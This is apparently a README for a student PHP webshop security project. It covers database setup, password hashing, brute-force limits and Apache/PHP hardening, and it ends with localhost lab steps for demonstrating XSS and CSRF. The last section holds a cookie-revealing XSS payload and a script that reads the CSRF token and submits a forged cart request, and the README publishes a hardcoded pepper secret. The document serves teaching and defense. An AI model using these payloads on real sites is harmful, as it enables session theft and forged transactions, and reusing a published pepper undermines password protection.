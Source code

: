 # web_security

## Database Setup

### Accessing Your Database in phpMyAdmin:

1. **Open phpMyAdmin:**
   - Navigate to `http://localhost/phpmyadmin` in your browser.
   
2. **Select Database:**
   - Click on your `webshop_db` database to select it.
   
3. **Navigate to SQL Tab:**
   - In your database, click on the "SQL" tab at the top of the phpMyAdmin interface for SQL queries.

### Writing and Executing SQL Queries:

- In the SQL query text area, write your SQL commands to create tables.
- Copy the content of the webshop_db.sql file and paste it ti the SQL query text area
- After pasting the content of the file, click the "Go" button in phpMyAdmin to execute the query.

### Test Connection:

- Visit `https://localhost/webshop/test_connection.php` to test database connection.

### Sample Data Insertion:

```sql
INSERT INTO products (name, description, price, stock, image) VALUES 
('First Product', 'Description for first product', 99.99, 10, '1.png'),
('Second Product', 'Description for second product', 149.99, 5, '2.png'),
('Third Product', 'Description for Third product', 49.99, 5, '3.png'),
('Fourth Product', 'Description for Fourth product', 49.99, 0, '4.png');
```

-------------------------------
### Password Handling:

- Use a pepper for added security: `kQa9e4v8Jy3Cf1u5Rm7N0w2Hz8G6pX`.
- The `password_hash` function should concatenate the password with the pepper, generate a random salt, hash the concatenated string with the salt, and return the complete hash string.

### Brute Force Attack Mitigation:

- Implement a strategy to mitigate brute-force attacks by tracking consecutive failed login attempts and imposing delays after a threshold is reached.

- After each failed login attempt, increment a counter in the user's session or database.
- If the counter exceeds a certain number (e.g., 3 attempts), record the time of the last failed attempt.
- When the user tries to log in, check the time of the last failed attempt. If it was less than 30 minutes ago and the counter -is over the threshold, deny the login attempt.
- If the login is successful, reset the counter.

--------------------------------
## Server and PHP configuration and protection from attacks
**Protection from attacks**: Giving an attacker specific information about version
  numbers will greatly simplify the process of attacking the server. In Apache, the
  directive ServerTokens is used to control what information is given to clients.<br>
  ServerTokens Prod Apache<br>
  ServerTokens Major Apache/2<br>
  ServerTokens Minor Apache/2.2<br>
  ServerTokens Min Apache/2.2.14<br>
  ServerTokens OS Apache/2.2.14 (Ubuntu)<br>
  ServerTokens Full Apache/2.2.14 (Ubuntu) PHP/5.3.2-1ubuntu4.9<br>
**Action**: change the conf "ServerTokens Full" to "ServerTokens Prod"<br>
**How**: go to C:\xampp\apache\conf\extra\httpd-default.conf and change the line "ServerTokens Full" to "ServerTokens Prod"<br><br>

**Protection from attack**: PHP will by default send information about the fact that PHP is used and which version. It can be valuable information for an attacker.
  <br>**Action**: By default, an X-Powered-By header is added to the HTTP response, specifying the PHP version in use. This information can be suppressed using the expose php = Off directive. Some combinations are given below.<br>
  **How**: go to following files and change the line "expose_php = On" to "expose_php = Off"<br>
  "C:\xampp\php\php.ini" and "C:\xampp\php\php.ini-development" and "C:\xampp\php\windowsXamppPhp\php.ini-development" and "C:\xampp\php\php.ini-production" and "C:\xampp\php\windowsXamppPhp\php.ini-production"
  <br><br>

**Protection from attack**: once the application is in production, errors reporting should be turned off. Errors can give valuable information to an attacker, e.g., file paths, file names, uninitialized variables, and arguments to functions, which in the worst case could include passwords to databases used.
  <br>**Action**: Error reporting is controlled in php.ini. The directive display errors specifies if errors should be displayed on the screen. This defaults to On but should be turned off in production stage.
  <br>**How**: go to following files and change the line "display_errors = On" to "display_errors = Off"
  <br>"C:\xampp\php\php.ini" and "C:\xampp\php\php.ini-development" and "C:\xampp\php\windowsXamppPhp\php.ini-development" and "C:\xampp\php\php.ini-production" and "C:\xampp\php\windowsXamppPhp\php.ini-production"
  <br><br>**Protection from attack**: Instead, errors should be logged to a file.
  <br>**Action**: This can be done by setting log errors = On and specifying the file to log to using the directive error log.
  <br>**How**: go to following files and change the line "log_errors = Off" to "log_errors = On"
  <br>"C:\xampp\php\php.ini" and "C:\xampp\php\php.ini-development" and "C:\xampp\php\windowsXamppPhp\php.ini-development" and "C:\xampp\php\php.ini-production" and "C:\xampp\php\windowsXamppPhp\php.ini-production"
  <br><br>Additionally, go to C:\xampp\php and create a file called "logs" and in that file create a file called "php_errors_log.txt"
  Then go to following files and change the line "error_log = php_errors_log" to "error_log = C:\xampp\php\logs\php_errors_log.txt"



**Wither or not to add the httpOnly flag to the cookie, which makes it
  inaccessible to browser scripting languages such as JavaScript.
  session.cookie_httponly=1**
**Wither or not to add the secure flag to the cookie, which makes it only
  accessible over a secure connection such as HTTPS.
  session.cookie_secure =1**

**The SameSite cookie attribute can prevent the browser from sending cookies along
  with cross-site requests. This can be useful to mitigate CSRF (Cross-Site Request Forgery) attacks
  session.cookie_samesite="Strict"**



**Another protection is of course to not allow the session ID to be sent in
  the URL at all. This is accomplished using session.use only cookies = 1**


--------------------------------
## To see example How the attack can work and the code can be vulnerable to it, do the following:
### XSS attack: 
1. Go to the search.php and comment the lines 89 and 107 and remove the comments from lines 90,108.
2. Go to  any page and enter the following in the search field: <script>alert(document.cookie)</script>
3. Click on the login button and you will see a pop up with the cookie information.

### CSRF attack: 
1. Go to the cart.php and comment the lines 2-6.
2. Go to the index.php and comment the lines 3-5 , 8-12, 27-31 and 116. 
3. Go to the search.php and comment the lines 3-5 , 19-21, 27-31 and 67. 
4. Go to Csrf.html and modify "webSecurityProject" to your project localhost name.
5. Open CSRF.html and click on the button and you will see that the cart is updated with the product.

### CSRF using XSS attack:
1. Go to the index.php and comment the lines 8-12.
2. Go to the cart.php and comment the lines 2-6.
3. Go to the search.php and comment the lines 2-6 and lines 94 and 112, and uncomment 95 and 113.
4. Go to home page and enter the following in the search field: 
```
  <script>
    
        /* Fetch the CSRF token */
        var tokenElement = document.querySelector('input[name="csrf_token"]');
        if (!tokenElement) {
            console.error('CSRF token element not found.');
        } else {
            var token = tokenElement.value;

            /* Create a new form */
            var form = document.createElement('form');
            form.action = 'http://localhost/webSecurityProject/index.php';
            form.method = 'POST';

            /* Create the hidden input fields */
            var product_id = document.createElement('input');
            product_id.type = 'hidden';
            product_id.name = 'product_id';
            product_id.value = '1';

            var product_price = document.createElement('input');
            product_price.type = 'hidden';
            product_price.name = 'product_price';
            product_price.value = '10000.00';
            
            var add_to_cart = document.createElement('input');
            add_to_cart.type = 'hidden';
            add_to_cart.name = 'add_to_cart';

            var csrf_token = document.createElement('input');
            csrf_token.type = 'hidden';
            csrf_token.name = 'csrf_token';
            csrf_token.value = token;

            /* Append the input fields to the form */
            form.appendChild(product_id);
            form.appendChild(product_price);
            form.appendChild(add_to_cart);
            form.appendChild(csrf_token);

            /* Append the form to the body */
            document.body.appendChild(form);

            /* Submit the form */
            form.submit();
        };
</script>
```
4. Now you can see a product is added to the cart.